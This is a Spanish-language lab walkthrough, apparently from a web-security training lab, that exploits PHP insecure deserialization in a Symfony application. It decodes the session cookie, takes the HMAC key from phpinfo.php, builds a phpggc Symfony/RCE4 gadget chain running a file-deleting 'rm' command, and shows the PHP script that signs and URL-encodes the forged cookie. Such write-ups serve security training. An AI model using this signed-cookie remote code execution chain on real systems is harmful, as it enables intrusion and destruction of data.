







## LAB



Haciendo uso de las credenciales proporcionadas y luego interceptar las solicitudes podemos observar que el valor de la cookie esta serializada:



En este caso observamos que se tiene el siguiente serializado:

```c
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJhOHYwanE0cmh6OG1kcjkzcDdvYmExbDNmZXBuMnNsMyI7fQ==","sig_hmac_sha1":"3b50cfbd8c7d135c980e1bf4719cfcf8302c2a0a"}
```

En el anterior contenido, observamos que se tiene un objecto en base64:

```c
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJhOHYwanE0cmh6OG1kcjkzcDdvYmExbDNmZXBuMnNsMyI7fQ==
```

Al decodificar esto, observamos lo siguiente:

```c
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"a8v0jq4rhz8mdr93p7oba1l3fepn2sl3";}
```

Investigando un poco sobre `sig_hmac_sha1` encontraremos lo siguiente, en el que necesitaremos un `string` que es nuestro objecto y una key

https://stackoverflow.com/questions/55247552/php-how-can-i-generate-a-hmac-sha1-signature-of-a-string

```c
$signature = urlencode(base64_encode(hash_hmac('sha1', $string , $key, true)));
```

Para generar el objeto usaremos `phpggc` que podemos instalarlo desde la web de kali linux o desde github.

- https://github.com/ambionics/phpggc
- https://www.kali.org/tools/phpggc/

```c
'{"token":"[objeto]","sig_hmac_sha1":"[hash-sig_hmac_sha1]"}'
```

Asi mismo necesitamos el tipo, que en este caso es Synfony que en este caso es la versión 4.3.6.





Así mismo, el valor de la key podremos encontrarla en el archivo `phpinfo.php`, en el apartado de `Environment`.



Ahora generamos el objeto o string y luego lo codificamos en base64.

```c
❯ phpggc Symfony/RCE4 exec "rm /home/carlos/morale.txt" | base64 -w 0; echo

Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==
```

Para luego agregar los valores en nuestro script de php y luego ejecutarlo

```c
<?php
  $object = "Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==";
  $key = "kt8ogn94sayo14vqc8ncemj6gbvyzue8";
  $cookie = '{"token":"'.$object.'","sig_hmac_sha1":"'.hash_hmac('sha1', $object , $key).'"}';
  echo $cookie; 
?>

```

Al ejecutar obtendremos lo siguiente:

```c
❯ php generate.php

{"token":"Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==","sig_hmac_sha1":"330089f27817d7fa7c4c4a93de76049cd090e0cf"} 
```

Pero podemos codificarlo en urlencode agregando `urlencode` al inicio y asi agregar a la cookie de nuestra sesión

```c
  $cookie = urlencode('{"token":"'.$object.'","sig_hmac_sha1":"'.hash_hmac('sha1', $object , $key).'"}');
```

```c
❯ php generate.php

%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22330089f27817d7fa7c4c4a93de76049cd090e0cf%22%7D  
```

Luego de agregar observamos que se logro eliminar el archivo con éxito.



